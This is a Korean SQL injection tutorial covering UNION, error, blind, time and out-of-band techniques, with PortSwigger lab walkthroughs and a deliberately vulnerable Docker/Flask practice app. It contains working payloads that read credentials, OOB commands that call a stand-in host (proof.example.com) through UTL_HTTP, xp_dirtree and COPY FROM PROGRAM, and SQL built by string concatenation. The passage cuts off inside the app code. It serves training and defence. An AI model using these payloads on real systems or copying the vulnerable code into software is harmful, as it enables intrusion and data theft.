

> [!warning] 허가된 환경에서만 실습하세요
> 아래 요청은 **PortSwigger Web Security Academy 또는 이 글의
> `127.0.0.1` Docker 실습 앱에서만** 실행하세요. 운영 서비스, 타인의 시스템,
> 허가 범위 밖 자산에는 보내지 않습니다. 특히 시간 지연·OOB·스택 쿼리·OS 명령
> 연계는 DB 부하, 데이터 변경, 외부 통신을 일으킬 수 있습니다.

> [!summary] ⏱️ 5초 핵심 요약
> - **한 줄 비유**: SQL 인젝션은 주문서의 값 칸에 글자를 쓰는 대신, 주문서의
>   따옴표와 문장 구조를 닫고 **새 DB 명령을 이어 쓰는 취약점**입니다.
> - **진단 순서**: 입력 지점과 SQL 문맥을 찾고 → DB 종류를 식별하고 → 가장
>   영향이 작은 Boolean 증거부터 → UNION·Error·Time·OOB 순으로 확인합니다.
> - **놓치기 쉬운 곳**: 저장 후 다시 쓰이는 값(Second-Order), `ORDER BY` 같은
>   구조 위치, 쿠키·헤더·JSON/XML, `INSERT`/`UPDATE`, 비동기 배치도 입력입니다.
> - **근본 조치**: 값은 항상 파라미터 바인딩하고, 식별자·정렬 방향처럼 바인딩할
>   수 없는 구조는 허용 목록으로 매핑하며, DB 계정·네트워크 권한을 줄입니다.

[[웹 취약점 진단 기법 입문 — XXE, SSRF부터 SQLi, XSS까지]]의 SQLi 절에서
따옴표, Boolean, Time 기반의 개념은 이미 설명했습니다. 이 글은 그 기초를 짧게
확인한 뒤 UNION, Error, Blind, OOB, Second-Order, Stacked Query, 특수 위치,
WAF 경계를 실제 진단 절차로 연결합니다.

---

## 한눈에 보는 SQLi 기법 요약표

| 기법 | 관찰 단서 | 성립 조건 | 가능한 영향 |
|---|---|---|---|
| **문맥 탐지** | `'` 전후 500/응답 변화, `2-1`이 `1`처럼 동작 | 외부 입력이 SQL 문자열 또는 구조에 결합 | 취약 지점·DB 문맥 식별 |
| **UNION 기반** | 열 수·타입이 맞을 때 표에 새 행 출현 | 원 쿼리가 결과를 화면에 사용하고 추가 `SELECT` 허용 | 다른 테이블 데이터 조회 |
| **Error 기반** | DB 오류에 쿼리·변환 대상 값 노출 | 상세 DB 오류가 응답까지 전달되거나 오류 여부가 구별됨 | 데이터 직접 노출 또는 비트 단위 추론 |
| **Boolean Blind** | 참/거짓에서 문구·행 수·길이·상태가 안정적으로 다름 | 쿼리 결과가 응답 분기에 간접 영향 | 한 글자씩 데이터 추론 |
| **Time Blind** | 참 조건에서만 일정한 지연 | 동기 쿼리, 지연 함수·무거운 쿼리 실행 가능 | 응답 본문 없이 데이터 추론 |
| **조건부 에러** | 참 조건에서만 500/오류 템플릿 | 조건식으로 오류 발생을 제어 가능 | 오류 한 비트로 데이터 추론 |
| **OOB** | DNS·HTTP 수신기에 DB 서버발 요청 | DB 네트워크 egress와 호출 가능한 파일·네트워크 함수 | 비동기 탐지, DNS/HTTP 데이터 유출 |
| **Second-Order** | 저장은 성공하지만 관리자·배치·후속 기능에서 오류 | 저장값을 나중에 문자열 결합해 새 쿼리에 사용 | 시간차 권한 우회·데이터 변조 |
| **Stacked Query** | 세미콜론 뒤 `UPDATE` 등 두 번째 문장 실행 | DB와 드라이버가 다중 문장 허용, DB 계정 권한 보유 | 쓰기, 설정 변경, 조건부 명령 실행 |
| **구조·비표준 입력** | 정렬·헤더·쿠키·JSON 값에 따른 DB 차이 | 값 또는 식별자가 동적 SQL에 결합 | 조회·로그 변조·지연형/저장형 SQLi |
| **필터/WAF 파서 차이** | 인코딩·JSON SQL 문법을 앱만 다르게 해석 | WAF 정규화·SQL 파서와 백엔드 해석이 다름 | 기존 SQLi가 필터 뒤에서 재현 |

> [!important] 기능이 보인다고 취약한 것은 아닙니다
> 검색·정렬·DB 사용, OOB 함수의 존재만으로 취약하다고 판정하지 않습니다.
> **외부 입력이 SQL 구조를 바꾼다는 재현 가능한 참/거짓 쌍**과 실제 쿼리·로그를
> 함께 확보해야 합니다.

---

## 1. 탐지 기초 — 주입 지점과 DB 종류 식별

### 단서 기능·성립 조건·원리

로그인, 검색, 상품 ID만 보지 말고 URL 경로, 쿼리, 폼, JSON/XML, 쿠키,
`User-Agent`, `Referer`, `X-Forwarded-For`, 파일 메타데이터까지 입력 지도로
만듭니다. 하나의 입력에는 다음처럼 **짝을 이룬 최소 변화**를 보냅니다.

| 확인 목적 | 기준 요청 | 비교 요청 | 해석 |
|---|---|---|---|
| 따옴표 문맥 | `name=test` | `name=test'`와 `name=test''` | 한 따옴표만 실패하고 두 따옴표가 복구되면 문자열 문맥 단서 |
| 숫자 평가 | `id=2` | `id=1+1`, `id=3-1` | 같은 객체가 나오면 숫자식 평가 단서 |
| Boolean | `id=1 AND 1=1` | `id=1 AND 1=2` | 안정적인 응답 차이면 SQL 조건 개입 단서 |
| 주석 | `' AND '1'='1' -- ` | 주석 없는 동일 구문 | 뒤따르는 따옴표가 주석 처리될 때만 복구되는지 확인 |
| 문맥 | 문자열용 `'...` | 숫자용 `1...`, 구조용 `CASE...` | WHERE 값, 숫자, `ORDER BY` 등 위치를 구분 |

MySQL의 `--`는 뒤에 공백이나 제어 문자가 필요합니다. URL에서 `#`는 fragment로
처리되므로 MySQL 주석으로 보낼 때는 `%23`으로 인코딩합니다. 큰따옴표는 DB 설정에
따라 문자열 또는 식별자이므로 작은따옴표와 같은 결과를 가정하지 않습니다.

DBMS 식별은 한 문법의 성공만으로 단정하지 않고 **버전 함수, 문자열 연결, 주석,
오류 문구 중 두 가지 이상**을 맞춥니다.

| DB | 낮은 영향의 식별 후보 | 자주 보이는 오류 단서 |
|---|---|---|
| MySQL/MariaDB | `@@version`, `VERSION()`, `CONCAT('a','b')` | `You have an error in your SQL syntax` |
| Microsoft SQL Server | `@@version`, `'a'+'b'`, `SUSER_NAME()` | `Unclosed quotation mark`, `Conversion failed` |
| PostgreSQL | `version()`, `'a'||'b'`, `current_database()` | `unterminated quoted string`, `invalid input syntax` |
| Oracle | `SELECT banner FROM v$version`, `'a'||'b'`, `FROM dual` | `ORA-00933`, `ORA-01756` |
| SQLite | `sqlite_version()`, `'a'||'b'` | `near "...": syntax error` |

### 따라하기 — PortSwigger 랩

- [Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)
- [Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

첫 랩의 상품 분류 요청을 Repeater로 보내고 정상 값, 항상 참, 항상 거짓을 각각
보냅니다.

```http
GET /filter?category=Gifts HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
```

```text
Gifts' AND '1'='1'-- -
Gifts' AND '1'='2'-- -
```

**기대 결과와 성공 기준**: 참 요청은 정상 상품군과 같은 결과를, 거짓 요청은 빈
결과를 반복해서 보여야 합니다. 따옴표 하나의 500만으로는 성공이 아닙니다.

### 진단 체크리스트·오탐 구분

- [ ] 원본, 참, 거짓을 같은 세션에서 각각 3회 이상 비교했다.
- [ ] 상태 코드뿐 아니라 본문 길이, 특정 문구, 행 수, 리다이렉트도 비교했다.
- [ ] CDN 캐시, 검색 자동 교정, A/B 테스트, 레이트 리밋을 배제했다.
- [ ] 잘못된 UUID·정수 변환 같은 애플리케이션 검증 오류와 DB 오류를 구분했다.
- [ ] Oracle의 `dual`, MySQL의 `-- `처럼 DB별 문법 차이를 반영했다.

### 조치·탐지

값은 Prepared Statement로 바인딩하고 상세 DB 오류는 외부에 내보내지 않습니다.
탐지 측에서는 단일 따옴표보다 **같은 세션에서 참/거짓 요청이 짝으로 반복되는
패턴**, SQL 오류 급증, 동일 파라미터의 길이·연산자 변화를 함께 봅니다.

- 출처: [PortSwigger SQL injection](https://portswigger.net/web-security/sql-injection), [PortSwigger SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), [OWASP WSTG — Testing for SQL Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)

---

## 2. In-band — UNION 기반과 Error 기반

In-band는 주입 요청과 데이터 회수가 같은 HTTP 응답에서 이루어지는 방식입니다.

### 2.1 UNION 기반

#### 단서 기능·성립 조건·원리

`UNION`은 두 `SELECT` 결과를 한 결과 집합으로 합칩니다. 원 쿼리와 추가 쿼리의
**열 수가 같고 대응 열 타입이 호환**되어야 하며, 애플리케이션이 그 결과 열을
응답에 그려야 합니다.

1. `' ORDER BY 1-- `부터 번호를 올려 첫 오류 직전 열 수를 찾습니다.
2. `' UNION SELECT NULL,NULL-- `처럼 `NULL` 수를 맞춥니다.
3. 각 위치에 한 번씩 문자열을 넣어 표시 가능한 문자 열을 찾습니다.
4. 한 열만 보이면 DB별 연결 함수로 `username~password`처럼 합칩니다.

```sql
-- 열 2개, 첫 열이 문자형인지 확인
' UNION SELECT 'marker',NULL-- -

-- 두 열이 보일 때
' UNION SELECT username,password FROM users-- -

-- 한 열만 보일 때
-- MySQL: CONCAT(username,'~',password)
-- MSSQL: username+'~'+password
-- PostgreSQL/Oracle/SQLite: username||'~'||password
```

Oracle은 상수만 조회해도 `FROM dual`이 필요합니다. `UNION`은 기본적으로 중복을
제거하므로 행 수가 중요하면 `UNION ALL`의 차이도 기록합니다.

#### 따라하기 — PortSwigger 랩

- [Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)
- [Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)
- [Lab: SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

두 번째 랩에서 분류 값을 다음 순서로 바꿉니다.

```text
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3--          # 여기서 오류면 2열
' UNION SELECT NULL,NULL-- -
' UNION SELECT 'left','right'-- -
' UNION SELECT username,password FROM users-- -
```

**기대 결과와 성공 기준**: 3번째 정렬 열에서만 오류가 나고, 두 `NULL`은 정상,
`left`와 `right`가 응답에 보인 뒤 `users`의 두 값이 같은 표에 나타나야 합니다.

#### 진단 체크리스트·오탐·조치·탐지

- [ ] 열 수와 문자형 열을 별도로 확인했다.
- [ ] 원본 행과 삽입 행을 구별할 고유 marker를 사용했다.
- [ ] `ORDER BY`의 정상 정렬 변화만 보고 UNION 가능으로 오판하지 않았다.
- [ ] 조치는 모든 값 바인딩, DB 계정의 시스템 카탈로그·타 테이블 권한 최소화다.
- [ ] 탐지는 `UNION SELECT`, 열 수 탐색, 연속 `ORDER BY n`을 한 세션으로 묶는다.

### 2.2 Error 기반

#### 단서 기능·성립 조건·원리

Error 기반은 (1) 상세 오류에 데이터를 직접 포함시키거나, (2) 조건이 참일 때만
오류를 내 한 비트를 얻습니다. PostgreSQL의 `CAST(text AS int)`, MSSQL의
`CONVERT(int,text)`가 대표적입니다. MySQL/MariaDB의 `EXTRACTVALUE()`와
`UPDATEXML()`은 XML XPath 오류에 문자열을 섞는 고전 기법이지만 **MySQL 8.0에서
제거된 레거시 함수**이므로 최신 MySQL에서 실패하는 것이 취약점 부재의 증거는
아닙니다.

```sql
-- PostgreSQL: 변환 오류에 문자열이 포함될 수 있다.
CAST((SELECT version()) AS int)

-- MSSQL
CONVERT(int,(SELECT @@version))

-- 구형 MySQL/MariaDB 계열
EXTRACTVALUE(1,CONCAT(0x7e,(SELECT VERSION())))
UPDATEXML(1,CONCAT(0x7e,(SELECT VERSION())),1)
```

#### 따라하기 — PortSwigger 랩

[Lab: Visible error-based SQL injection](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)의 `TrackingId` 쿠키를 Repeater에서
다음처럼 바꿉니다.

```http
Cookie: TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

**기대 결과와 성공 기준**: 단순 500이 아니라 `invalid input syntax for type
integer: "administrator"`처럼 변환하려던 값이 DB 오류에 포함되어야 합니다.

#### 진단 체크리스트·오탐·조치·탐지

- [ ] 웹 서버·템플릿 오류가 아니라 DB 벤더 오류 코드와 쿼리 문맥을 확인했다.
- [ ] 한 행만 반환하도록 제한해 다중 행 오류와 변환 오류를 구분했다.
- [ ] 오류 페이지의 임의 request ID를 데이터 유출로 오판하지 않았다.
- [ ] 상세 오류는 내부 로그에만 남기고 외부에는 일관된 오류를 반환한다.
- [ ] 변환 오류·XPath 오류와 같은 세션의 따옴표/주석 패턴을 상관 분석한다.

- 출처: [PortSwigger UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks), [PortSwigger Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind), [MySQL 8.0 removed features](https://dev.mysql.com/doc/refman/8.0/en/mysql-nutshell.html#mysql-nutshell-removals)

---

## 3. Blind — Boolean, Time, 조건부 에러

### 단서 기능·성립 조건·원리

Blind SQLi는 결과 열과 상세 오류가 화면에 보이지 않는 경우입니다. 대신 쿼리가
만드는 **응답 분기, 오류 분기, 시간**을 1비트 채널로 사용합니다.

| 방식 | 참 조건 신호 | 거짓 조건 신호 | 주의점 |
|---|---|---|---|
| Boolean | `Welcome back`, 행 존재, 본문 길이 | 문구·행 없음 | 캐시와 동적 콘텐츠를 제거 |
| 조건부 에러 | 500 또는 오류 템플릿 | 정상 200 | 프레임워크 오류와 DB 오류 구분 |
| Time | 기준보다 일정 시간 지연 | 즉시 응답 | 네트워크 지터와 DB 부하를 통계로 배제 |

문자 하나를 순차 대입하기보다 길이를 먼저 구하고, 가능한 문자 범위를 이진 검색하면
요청 수를 줄일 수 있습니다. 그러나 운영 진단에서는 전체 비밀을 회수하지 말고
승인된 최소 증거 한두 글자에서 멈춥니다.

DB별 시간 채널은 다음과 같습니다.

| DB | 직접 지연 | 조건부 형태 또는 대안 |
|---|---|---|
| MySQL/MariaDB | `SLEEP(2)` | `IF(condition,SLEEP(2),0)` |
| MSSQL | `WAITFOR DELAY '0:0:2'` | `IF condition WAITFOR DELAY ...` |
| PostgreSQL | `pg_sleep(2)` | `CASE` 서브쿼리 또는 스택 문장에서 조건 분기 |
| Oracle | 권한이 있으면 `DBMS_PIPE.RECEIVE_MESSAGE('x',2)` | 무거운 Cartesian join·함수 연산으로 조건부 지연 |
| SQLite | 내장 sleep 없음 | 큰 `randomblob()`·재귀 CTE 같은 **무거운 쿼리**만 제한적으로 사용 |

무거운 쿼리는 CPU·I/O를 예측하기 어렵습니다. localhost에서도 작은 크기부터
올리고, 운영에서는 승인된 부하 한도를 넘기지 않습니다.

### 따라하기 — PortSwigger 랩

- Boolean: [Lab: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)
- 조건부 에러: [Lab: Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)
- Time: [Lab: Blind SQL injection with time delays and information retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

Boolean 랩에서 다음 쿠키 쌍을 3회씩 보냅니다.

```http
Cookie: TrackingId=xyz' AND '1'='1
Cookie: TrackingId=xyz' AND '1'='2
```

조건부 에러 랩에서는 Oracle 문맥에 맞춰 다음을 비교합니다.

```text
xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

Time 랩에서는 10초 대신 Academy 안내값을 사용하되 요청을 병렬로 보내지 않습니다.

```text
x';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
x';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

**기대 결과와 성공 기준**: Boolean은 `Welcome back` 유무, 조건부 에러는
500/200, Time은 참에서만 약 10초 지연이 반복되어야 합니다. 한 번 느린 요청은
성공이 아닙니다.

### 진단 체크리스트·오탐 구분

- [ ] 참/거짓 순서를 섞어 반복하고 중앙값을 비교했다.
- [ ] 지연값은 평소 응답의 5배 이상이며 네트워크 timeout보다 짧게 잡았다.
- [ ] 캐시 우회를 위해 무해한 nonce를 별도 파라미터에 사용했다.
- [ ] 429, 큐 대기, GC, cold start, 외부 API 지연을 DB 지연으로 오판하지 않았다.
- [ ] 조건부 에러에서 참일 때만 DB 오류가 발생함을 로그로 확인했다.

### 조치·탐지

Blind도 근본 조치는 동일하게 바인딩입니다. DB statement timeout, 쿼리 비용 제한,
최소 권한은 영향 범위를 줄입니다. 탐지할 때는 같은 파라미터에서 `SUBSTRING`,
`ASCII`, `CASE`, 지연 함수가 위치·문자만 바꾸며 반복되는 패턴과 응답시간의
계단형 분포를 봅니다.

- 출처: [PortSwigger Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind), [PostgreSQL `pg_sleep`](https://www.postgresql.org/docs/current/functions-datetime.html#FUNCTIONS-DATETIME-DELAY), [Microsoft `WAITFOR`](https://learn.microsoft.com/en-us/sql/t-sql/language-elements/waitfor-transact-sql), [MySQL `SLEEP()`](https://dev.mysql.com/doc/refman/8.4/en/miscellaneous-functions.html#function_sleep)

---

## 4. OOB — DNS·HTTP로 보이지 않는 쿼리 증명하기

### 단서 기능·성립 조건·원리

OOB(Out-of-Band)는 HTTP 응답 대신 DB 서버가 만든 DNS·HTTP·SMB 요청을 별도
수신기에서 관찰합니다. 비동기 로그 처리처럼 응답 내용·시간·오류가 모두 고정된
경우 특히 유용합니다.



반드시 필요한 조건은 다음 세 가지입니다.

1. 입력이 SQL 구조에 개입한다.
2. DB 계정이 관련 패키지·확장·파일 함수 실행 권한을 가진다.
3. DB 호스트에서 수신기로 DNS/HTTP/SMB egress가 허용된다.

| DB | 대표 OOB 표면 | 핵심 성립 조건 |
|---|---|---|
| MSSQL | `xp_dirtree`의 UNC, `fn_xe_file_target_read_file()`의 원격 경로 | Windows/SMB 또는 DNS 해석, 프로시저 실행 권한 |
| Oracle | `UTL_HTTP.REQUEST`, `UTL_INADDR.GET_HOST_ADDRESS`, XML `EXTRACTVALUE` 외부 엔티티 | 네트워크 ACL·패키지 권한, XML 외부 참조 허용 |
| MySQL | `LOAD_FILE('\\host\\share')`, `SELECT ... INTO OUTFILE` UNC | 주로 Windows, `FILE` 권한, `secure_file_priv`, SMB/DNS egress |
| PostgreSQL | `COPY ... PROGRAM`, `dblink`의 원격 host | superuser 또는 역할 권한, 확장 설치, OS/DNS egress |

MSSQL의 `xp_dirtree`는 널리 쓰이지만 문서화되지 않은 확장 프로시저입니다.
MySQL UNC 예시는 Linux 서버에서 그대로 동작하지 않습니다. Oracle 패키지는
현대 배포에서 ACL로 막혀 있는 경우가 많습니다. **함수가 있다는 사실만으로 OOB가
성립한다고 보고하지 않습니다.**

다음은 **허가된 랩에서 수신 도메인을 `example.com`의 통제 가능한 하위 도메인으로
바꿔 쓰는 문법 골격**입니다. 실제 운영 대상에 그대로 보내는 예시가 아닙니다.

```sql
-- MSSQL: UNC 접근이 SMB를 시도하면서 DNS 해석을 유발할 수 있다.
EXEC master..xp_dirtree '\\proof.example.com\share';
SELECT * FROM sys.fn_xe_file_target_read_file(
  '\\proof.example.com\share\*.xel', NULL, NULL, NULL
);

-- Oracle: HTTP와 DNS 채널. ACL과 EXECUTE 권한이 필요하다.
SELECT UTL_HTTP.REQUEST('http://proof.example.com/') FROM dual;
SELECT UTL_INADDR.GET_HOST_ADDRESS('proof.example.com') FROM dual;

-- Oracle XML/XXE 계열: 외부 엔티티 참조가 허용되는 구형/취약 구성에서만 성립한다.
SELECT EXTRACTVALUE(
  XMLTYPE('<?xml version="1.0"?><!DOCTYPE r [
    <!ENTITY x SYSTEM "http://proof.example.com/">
  ]><r>&x;</r>'),
  '/r'
) FROM dual;

-- MySQL: Windows UNC + FILE 권한 + secure_file_priv 조건을 모두 확인한다.
SELECT LOAD_FILE('\\\\proof.example.com\\share\\proof.txt');
SELECT 'local-proof'
  INTO OUTFILE '\\\\proof.example.com\\share\\proof.txt';

-- PostgreSQL: dblink 확장 또는 PROGRAM 역할이 있어야 한다.
SELECT dblink_connect('host=proof.example.com dbname=missing connect_timeout=2');
CREATE TEMP TABLE dns_probe(line text);
COPY dns_probe FROM PROGRAM 'getent hosts proof.example.com';
```

DNS label에 데이터를 넣을 때는 영숫자·하이픈만 사용하고 label 63바이트, 전체 이름
253바이트 제한을 지킵니다. 실제 개인정보나 비밀 전체를 유출하지 말고 승인된 marker
한 조각으로 끝냅니다. HTTP는 경로와 헤더에 더 많은 데이터를 담을 수 있지만 프록시,
인증, TLS 검증, 네트워크 ACL이라는 추가 조건이 필요합니다.

### 따라하기 A — PortSwigger 랩

- [Lab: Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)
- [Lab: Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)

Academy는 악용 방지를 위해 임의 외부 서버 통신을 막고 기본 Burp Collaborator만
허용합니다. Collaborator가 없는 독자는 아래 localhost 랩을 사용하세요.

### 따라하기 B — interactsh로 허가된 대상 확인

[interactsh](https://github.com/projectdiscovery/interactsh)는 오픈소스 OAST
클라이언트입니다. Docker가 있으면 다음처럼 임시 클라이언트를 실행할 수 있습니다.

```bash
docker run --rm -it projectdiscovery/interactsh-client:latest
```

발급된 고유 도메인을 **허가된 랩의 OOB 자리**에만 넣고, 수신 기록의 전체 FQDN,
프로토콜, 시각을 저장합니다. Academy 랩은 임의 interactsh 서버를 허용하지 않으므로
이 방법으로 해당 랩을 풀 수는 없습니다.

### 따라하기 C — Collaborator 없는 localhost Docker 랩

다음 실습은 MySQL 8.4, PostgreSQL 17, Flask 앱, UDP/53 DNS 로그 수신기를 한
격리 네트워크에 띄웁니다. DB 포트는 호스트에 공개하지 않고 앱만
`127.0.0.1:5000`에 바인딩합니다. 아래 **7개 파일이 전체 코드**입니다.

#### `Dockerfile`

```dockerfile
FROM ghcr.io/astral-sh/uv:python3.12-bookworm-slim

WORKDIR /app
COPY requirements.txt .
RUN uv pip install --system --no-cache -r requirements.txt
COPY app.py dnslog.py ./
CMD ["python", "app.py"]
```

#### `requirements.txt`

```text
Flask==3.1.2
mysql-connector-python==9.5.0
psycopg[binary]==3.2.13
```

#### `compose.yaml`

```yaml
services:
  mysql:
    image: mysql:8.4
    environment:
      MYSQL_ROOT_PASSWORD: local-only
      MYSQL_DATABASE: sqli_lab
    volumes:
      - ./mysql-init.sql:/docker-entrypoint-initdb.d/init.sql:ro
    healthcheck:
      test: ["CMD", "mysqladmin", "ping", "-h", "localhost", "-plocal-only"]
      interval: 3s
      timeout: 3s
      retries: 60
      start_period: 120s
    networks: [sqli_net]

  postgres:
    image: postgres:17
    environment:
      POSTGRES_PASSWORD: local-only
      POSTGRES_DB: sqli_lab
    volumes:
      - ./postgres-init.sql:/docker-entrypoint-initdb.d/init.sql:ro
    healthcheck:
      test: ["CMD-SHELL", "pg_isready -U postgres -d sqli_lab"]
      interval: 3s
      timeout: 3s
      retries: 30
    dns: 172.28.0.53
    depends_on: [dnslog]
    networks: [sqli_net]

  dnslog:
    build: .
    command: ["python", "dnslog.py"]
    networks:
      sqli_net:
        ipv4_address: 172.28.0.53

  app:
    build: .
    environment:
      MYSQL_HOST: mysql
      POSTGRES_HOST: postgres
    depends_on:
      mysql:
        condition: service_healthy
      postgres:
        condition: service_healthy
    ports:
      - "127.0.0.1:5000:5000"
    networks: [sqli_net]

networks:
  sqli_net:
    ipam:
      config:
        - subnet: 172.28.0.0/24
```

#### `mysql-init.sql`

```sql
CREATE TABLE products (
  id INT PRIMARY KEY,
  name VARCHAR(80) NOT NULL,
  price INT NOT NULL
);
INSERT INTO products VALUES (1, 'keyboard', 50), (2, 'mouse', 20);

CREATE TABLE users (
  username VARCHAR(80) PRIMARY KEY,
  password VARCHAR(80) NOT NULL
);
INSERT INTO users VALUES ('victim', 'original-local'), ('admin', 'lab-secret');

CREATE TABLE profiles (
  id INT AUTO_INCREMENT PRIMARY KEY,
  username VARCHAR(200) NOT NULL
);

CREATE TABLE audit_log (
  id INT AUTO_INCREMENT PRIMARY KEY,
  agent VARCHAR(255) NOT NULL
);
```

#### `postgres-init.sql`

```sql
CREATE EXTENSION dblink;

CREATE TABLE products (
  id integer PRIMARY KEY,
  name text NOT NULL,
  price integer NOT NULL
);
INSERT INTO products VALUES (1, 'keyboard', 50), (2, 'mouse', 20);

CREATE TABLE users (
  username text PRIMARY KEY,
  password text NOT NULL
);
INSERT INTO users VALUES ('admin', 'pg-local-secret');
```

#### `dnslog.py`

```python
import socket
import struct


def question_name(packet: bytes) -> str:
    labels = []
    offset = 12
    while packet[offset] != 0:
        length = packet[offset]
        offset += 1
        labels.append(packet[offset : offset + length].decode("ascii", errors="replace"))
        offset += length
    return ".".join(labels)


server = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server.bind(("0.0.0.0", 53))
print("DNS listener ready on udp/53", flush=True)

while True:
    packet, peer = server.recvfrom(4096)
    print(f"DNS query from {peer[0]}: {question_name(packet)}", flush=True)
    response = packet[:2] + struct.pack("!HHHHH", 0x8183, 1, 0, 0, 0) + packet[12:]
    server.sendto(response, peer)
```

#### `app.py`

```python
import os

import mysql.connector
import psycopg
from flask import Flask, Response, jsonify, request


app = Flask(__name__)


def mysql_connection() -> mysql.connector.MySQLConnection:
    return mysql.connector.connect(
        host=os.environ.get("MYSQL_HOST", "mysql"),
        user="root",
        password="local-only",
        database="sqli_lab",
        autocommit=True,
    )


def postgres_connection() -> psycopg.Connection:
    return psycopg.connect(
        host=os.environ.get("POSTGRES_HOST", "postgres"),
        user="postgres",
        password="local-only",
        dbname="sqli_lab",
        autocommit=True,
    )


@app.get("/")
def index() -> Response:
    return jsonify(service="localhost SQLi lab", scope="127.0.0.1 only")


@app.get("/mysql/union")
def mysql_union() -> Response | tuple[Response, int]:
    category = request.args.get("category", "key")
    query = (
        "SELECT name, CAST(price AS CHAR) FROM products "
        f"WHERE name LIKE '%{category}%'"
    )
    try:
        with mysql_connection() as connection:
            with connection.cursor() as cursor:
                cursor.execute(query)
                return jsonify(query=query, rows=cursor.fetchall())
    except Exception as error:
        return jsonify(query=query, db_error=str(error)), 500


@app.get("/mysql/blind")
def mysql_blind() -> Response:
    name = request.args.get("name", "admin")
    query = f"SELECT 1 FROM users WHERE username='{name}'"
    try:
        with mysql_connection() as connection:
            with connection.cursor() as cursor:
                cursor.execute(query)
                return jsonify(exists=cursor.fetchone() is not None)
    except Exception:
        return jsonify(exists=False)


@app.get("/mysql/time")
def mysql_time() -> Response | tuple[Response, int]:
    product_id = request.args.get("id", "1")
    query = f"SELECT name FROM products WHERE id={product_id}"
    try:
        with mysql_connection() as connection:
            with connection.cursor() as cursor:
                cursor.execute(query)
                return jsonify(rows=cursor.fetchall())
    except Exception as error:
        return jsonify(db_error=str(error)), 500


@app.post("/second/register")
def second_register() -> Response:
    username = request.form["username"]
    with mysql_connection() as connection:
        with connection.cursor() as cursor:
            cursor.execute("INSERT INTO profiles(username) VALUES (%s)", (username,))
            return jsonify(profile_id=cursor.lastrowid, stored=username)


@app.post("/second/change-password")
def second_change_password() -> Response:
    profile_id = request.form["profile_id"]
    new_password = request.form["new_password"]
    with mysql_connection() as connection:
        with connection.cursor() as cursor:
            cursor.execute("SELECT username FROM profiles WHERE id=%s", (profile_id,))
            stored_username = cursor.fetchone()[0]
            query = (
                f"UPDATE users SET password='{new_password}' "
                f"WHERE username='{stored_username}'"
            )
            cursor.execute(query)
            return jsonify(query=query, changed_rows=cursor.rowcount)


@app.post("/second/login")
def second_login() -> Response:
    username = request.form["username"]
    password = request.form["password"]
    with mysql_connection() as connection:
        with connection.cursor() as cursor:
            cursor.execute(
                "SELECT 1 FROM users WHERE username=%s AND password=%s",
                (username, password),
            )
            return jsonify(authenticated=cursor.fetchone() is not None)


@app.get("/special/order")
def special_order() -> Response | tuple[Response, int]:
    sort = request.args.get("sort", "id")
    query = f"SELECT id, name, price FROM products ORDER BY {sort}"
    try:
        with postgres_connection() as connection:
            with connection.cursor() as cursor:
                cursor.execute(query)
                return jsonify(query=query, rows=cursor.fetchall())
    except Exception as error:
        return jsonify(query=query, db_error=str(error)), 500


@app.post("/special/header")
def special_header() -> Response | tuple[Response, int]:
    agent = request.headers.get("User-Agent", "missing")
    query = f"INSERT INTO audit_log(agent) VALUES ('{agent}')"
    try:
        with mysql_connection() as connection:
            with connection.cursor() as cursor:
                cursor.execute(query)
                cursor.execute("SELECT COUNT(*) FROM audit_log")
                return jsonify(query=query, audit_rows=cursor.fetchone()[0])
    except Exception as error:
        return jsonify(query=query, db_error=str(error)), 500


@app.post("/special/json")
def special_json() -> Response | tuple[Response, int]:
    term = request.get_json()["term"]
    query = f"SELECT name FROM products WHERE name LIKE '%{term}%'"
